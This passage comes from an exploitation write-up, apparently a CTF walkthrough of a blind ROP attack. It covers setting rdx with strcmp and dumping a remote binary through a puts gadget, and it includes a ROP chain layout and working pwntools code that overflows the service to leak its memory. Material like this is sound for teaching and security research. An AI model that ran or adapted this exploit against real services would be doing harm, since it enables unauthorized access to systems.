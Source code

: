 #### Set rdx for write
It is still fine to not be able to set `rdx`, because as long as `rdx` is not 0, something will be printed, and we can from this verify that the address we are testing corresponds to `write`. However, it would still be great if we can set `rdx`.

One way of doing this is to use `strcmp`, as `strcmp` will set `rdx` to be the length of the strings being compared.

#### Test strcmp
If we really need to find a `strcmp` gadget, it can be done by checking whether the gadget crashes the service. There are 4 cases when calling `strcmp`:
* `strcmp(bad address, bad address)`
* `strcmp(bad address, readable address)`
* `strcmp(readable address, bad address)`
* `strcmp(readable address, readable address)`

Only the last one will not crash the service.

Since at this point we will be able to leak the binary, we can also leak it and check if there is such a plt entry.

### Leak the binary
Using the `puts` gadget we found earlier, we can easily leak one page from the binary for us to analyze locally, using the payload

```
padding|pop_rdi_ret|address|puts|stop_gadget
```

```python
def leak(offset, addr, rdi_ret, puts, stop_gadget):
	try:
		r = remote(host, port)
		r.recvuntil('WelCome my friend,Do you know password?\n')
		r.sendline('a' * offset + p64(rdi_ret) + p64(addr) + p64(puts) + p64(stop_gadget))
		content = r.recvuntil('WelCome')
		r.close()
		try:
			content = content[:content.index('\nWelCome')]
		except:
			pass
		if content == '':
			content = '\x00'
		return content
	except PwnlibException:
		return leak(offset, addr, rdi_ret, puts, stop_gadget)
	except EOFError:
		r.close()
		return None


def leak_bytes(progress, offset, start, num_bytes, rdi_ret, puts, stop_gadget):
	addr = start
	res = ''
	while addr < (start + num_bytes):
		if progress:
			progress.status('Leaked 0x%x bytes' % (addr - start))
		data = leak(offset, addr, rdi_ret, puts, stop_gadget)
		if data is None:
			continue
		res += data
		addr += len(data)

	return res


```